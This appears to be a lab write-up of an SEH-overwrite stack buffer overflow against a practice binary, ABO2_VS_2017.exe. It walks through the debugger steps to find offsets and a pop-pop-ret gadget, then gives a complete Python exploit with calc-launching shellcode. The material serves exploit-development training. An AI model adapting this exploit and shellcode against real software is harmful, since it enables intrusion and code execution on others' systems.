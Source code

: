 **ABO2_VS_2017.exe**

The goal is executing the calculator.

![](media/490263e68907b823d08d94e3ad183c48.png)

There is a **gets** in the function **main**, but at the end, instead of a **ret** instruction we find an **exit()**. This means that the program ends here before returning from the function.

![](media/d302f3877226d19a197c371fe4cb32bb.png)

In this case, we do not have any return address to overwrite, so what we can do is overwrite the structured exception handler **(SEH)**.

Let’s see it in **ollydbg:**

We place a **bp** after **gets** and before **exit()**.

![](media/7626bae6af7da1897acda28331fbd470.png)

In the stack we will see the string we have sent, and in this way, we can calculate the amount of bytes necessary to reach the **SEH** and overwrite it.

![](media/172131b36d7e7662abb59d7d9c7cb9d9.png)

In this case it’s **0x4D4 + 4 + 1**.

![](media/0d2d0fa207a95529fad5223a0814796e.png)

**40B170** handles the crash, in the stack we see it at offset **0x43C**

![](media/bf9a89a7fdb96101ed3cd0ab93a0a4f1.png)

When we fill the buffer, that value will be overwritten.

Let’s make the program crash.

![](media/8119d30f094de49c885464c905864f0e.png)

After crashing, we see that the **EDI** register points to the beginning of our **payload**.

**![](media/c10c79cf05491ad65c3f45432d6bb088.png)**

So we will replace the address of **seh** to one that points to a **JPM EDI** or similar.

![](media/8272f5a7693546b9c8883cd4972b9557.png)![](media/db64e5065bc30679aec586410a6d3d03.png)

I made it crash but it installed the same **SEH** again.

**![](media/5c98874ebae813ef4505a312d5a856d1.png)**

Instead of a **call edi**, we will have to search for a **pop** **pop ret**, because upon returning from **SEH**, we always have a pointer to our buffer in **ESP+8**

![](media/addec051417e1bb557d710b901cbd0c7.png)

By following **esp+8**  we can see our **Payload**

![](media/4036e956effffb1f715b5f742b4f5610.png)

Here we find in **POP POP RET**

**![](media/b6cab2042f40ae00a077d959f9265e87.png)**

Upon executing **RET** we will jump to the **payload** above **0x41414141**,

**![](media/1c5b419f561d448923fb54c02eb6aa18.png)**

In **SEH** we have the pointer to **POP POP RET**, so we need to avoid executing it. To do so, we need to jump over using the bytes **EB 06** (a jump 4 bytes forward).

![](media/aaaf34d5059ab039d13ce0a7e3969c8d.png)

At this point, we have another problem, which is that the shellcode doesn’t fit below the SEH, so the solution is to write it at the beginning and once SEH is overwritten, jump backwards.

These are the opcodes for the jump

![](media/e7d50992eaf368f53e4d4c73937dc4f1.png)

As the exception handler is executed over and over, the program never finishes and endlessly executes the shellcode, so to force it to finish, we added a call to **\_exit()**.

The script would look like this:

| import sys import binascii from subprocess import Popen, PIPE   winexec_calc_shellcode = b'31c94931d2e347526863616c6389e65256648b72308b760c8b760cad8b308b7e188b5f3c8b5c1f788b741f2001fe8b4c1f2401f90fb72c5142ad813c0757696e4575f18b741f1c01fe033caeffd7' winexec_calc_shellcode = binascii.unhexlify(winexec_calc_shellcode)  size_crash = 0xE6 size_to_next_seh = 0x438 next_seh = b"\\xEB\\x06\\x90\\x90" \# Un JMP para evitar pisar el seh  current_seh = b"\\x31\\x12\\x40\\x00" \# Salta al pop pop ret jmp_to_payload = b"\\xE9\\xBB\\xFB\\xFF\\xFF\\x90" \# Salta al payload jmp_to_exit = b"\\xE9\\xB1\\x14\\x26\\x00\\x90" \# JMP 40102C  buffer = winexec_calc_shellcode  buffer += jmp_to_exit + b"\\x90" \* (size_to_next_seh - len(winexec_calc_shellcode) - len(jmp_to_exit)) buffer += next_seh buffer += current_seh buffer += jmp_to_payload buffer += b"\\x90" \* size_crash \# Size para de desbordar la pila  payload = buffer  p1 = Popen("ABO2_VS_2017.exe", stdin=PIPE) print ("PID: %s" % hex(p1.pid)) print ("Enter para continuar")  p1.communicate(payload) p1.wait() input() |
|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

**![](media/3af6e22514d12cee5855229273adc041.png)**
